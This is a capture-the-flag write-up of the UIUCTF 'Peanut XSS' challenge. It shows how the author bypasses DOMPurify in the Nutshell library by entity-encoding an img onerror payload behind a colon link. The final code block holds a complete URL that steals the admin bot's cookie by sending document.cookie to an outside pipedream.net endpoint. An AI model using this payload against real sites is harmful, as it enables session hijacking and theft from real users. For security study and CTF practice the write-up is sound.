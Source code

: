 # Peanut XSS
## Description
>Nutshell is pretty cool. Want to test it out?
>
>admin bot: nc peanut-xss-bot.chal.uiuc.tf 1337
>
>Author: arxenix
>
> 52 solves
# Attachments 
>
>We were given 2 links one to https://ncase.me/nutshell/ which talks about what is nutshell and the other to the challenge website https://peanut-xss-web.chal.uiuc.tf/ 
>
## The Site
Upon first looking at the site a few things stand out the website seems to have a html parser written into the site where you type your html and it will generate the content.
Two things that instantly pop out is the warning that the site uses dompurify so that we "surely won't be able to steal the admin-bots document.cookie
As well as the apparent indication that the site uses nutshell by the : being used in the example html.

After examing the html we see a interesting script function at the bottom

```js

      const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "htmlmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```

We can see from this js that DOMPurify is used on our passed-in nutshell parameter before nutshell parses it
Next, I attempted to send some test xss payouts to see how they looked after they were santizied 
passing in a simple ```<script>alert(1)</script>``` payload resulted in this being passed in as the parameter
```
?nutshell=%0A<script>alert(1)<%2Fscript>
```
I then tried various other xss payloads looking for one that would bypass dompurify before realizing I was ignoring the whole purpose of the challenge and not even using nutshell at all whoops
After looking into what nut shell does I saw this 
```
Nutshell is a tool to make "expandable, embeddable explanations", like this! They can even be recursive. (← click me 👆) This lets your readers learn what they need, just-in-time, always-in-context.
```

So then I modified my payload to ```<p>just make a link with :colon at the front… <a href="#ToWriteASection">:<script>alert(1)</script></a>!</p>``` which is just there example payload with my xss payload this resulted in nutshell
creating one of its expandable but still nothing at this point I was confused and started looking into nut shells code and found out it also uses dompurify which suprised me at first before realizing this must mean the issue is with nut shells 
implementation of dom purify so I started looking at both the code and similar examples and trying various xss payloads before stumbling on this one ```:&lt;img src=x onerror=alert(1)&gt;&lt;/img&gt;``` where the <> brackets are instead replaced with html entities and sure enough combined with using nutshells expandable embedded explanations which are inputted by using the :
![alertsuccess](images/alertsuccess.png)

The next part was simple enough we just had to take our newfound knowledge and craft a simple payload to send to the admin bot. Simply replacing the brackets in a normal xxs cookie payload was good enough.
```
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Chtml%3E%0A%3Cbody%3E%0A%20%20%20%20%3Ch2%3ETo%20write%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Cp%3Ejust%20use%20headings%20%26%20paragraphs%20like%20this!%20Then%E2%80%A6%3C%2Fp%3E%0A%20%20%20%20%3Ch2%3ETo%20embed%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Ca%20href%3D%22%23ToWriteASection%22%3E%3A%26lt%3Bimg%20src%3Dx%20onerror%3Dthis.src%3D%27https%3A%2F%2Feor2d2npr01b93o.m.pipedream.net%2F%3F%27%2Bdocument.cookie%3B%26gt%3B%26lt%3B%2Fimg%26gt%3B%3C%2Fa%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%20%20%20%20
```
![flagsuccess](images/flagsuccess.png)
